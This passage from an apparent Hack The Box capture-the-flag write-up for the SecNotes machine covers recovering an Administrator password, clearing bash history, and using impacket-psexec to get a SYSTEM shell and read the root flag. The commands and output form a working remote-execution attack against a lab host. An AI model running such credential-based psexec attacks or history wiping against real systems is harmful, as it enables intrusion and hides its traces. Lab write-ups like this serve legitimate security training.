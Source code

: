 ```bash
> .bash_history 
less .bash_history
```

>[!important]
>Administrator     u6!4ZwgwOM#^OBf#Nwnh

## PxExec using Administrator's credentials

```bash
┌──(kali㉿kali)-[~/CTFs/HTB/box/SecNotes]
└─$ impacket-psexec Administrator:'u6!4ZwgwOM#^OBf#Nwnh'@10.10.10.97 -port 445
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Requesting shares on 10.10.10.97.....
[*] Found writable share ADMIN$
[*] Uploading file uAexFvRe.exe
[*] Opening SVCManager on 10.10.10.97.....
[*] Creating service advg on 10.10.10.97.....
[*] Starting service advg.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17134.228]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\WINDOWS\system32>whoami && hostname && type C:\Users\administrator\desktop\root.txt && ipconfig /all
nt authority\system
SECNOTES
237cad4f37f4079e70e4ef4719a5a95a

Windows IP Configuration

   Host Name . . . . . . . . . . . . : SECNOTES
   Primary Dns Suffix  . . . . . . . : 
   Node Type . . . . . . . . . . . . : Hybrid
   IP Routing Enabled. . . . . . . . : No
   WINS Proxy Enabled. . . . . . . . : No

Ethernet adapter Ethernet0 2:

   Connection-specific DNS Suffix  . : 
   Description . . . . . . . . . . . : vmxnet3 Ethernet Adapter
   Physical Address. . . . . . . . . : 00-50-56-B9-25-CC
   DHCP Enabled. . . . . . . . . . . : No
   Autoconfiguration Enabled . . . . : Yes
   IPv6 Address. . . . . . . . . . . : dead:beef::1d62:a0ec:973c:e86(Preferred) 
   Temporary IPv6 Address. . . . . . : dead:beef::74b9:b28a:686a:cc5a(Preferred) 
   Link-local IPv6 Address . . . . . : fe80::1d62:a0ec:973c:e86%11(Preferred) 
   IPv4 Address. . . . . . . . . . . : 10.10.10.97(Preferred) 
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : fe80::250:56ff:feb9:188e%11
                                       10.10.10.2
   DHCPv6 IAID . . . . . . . . . . . : 369119318
   DHCPv6 Client DUID. . . . . . . . : 00-01-00-01-28-10-42-0F-00-50-56-B9-25-CC
   DNS Servers . . . . . . . . . . . : 1.1.1.1
                                       1.0.0.1
   NetBIOS over Tcpip. . . . . . . . : Enabled
```
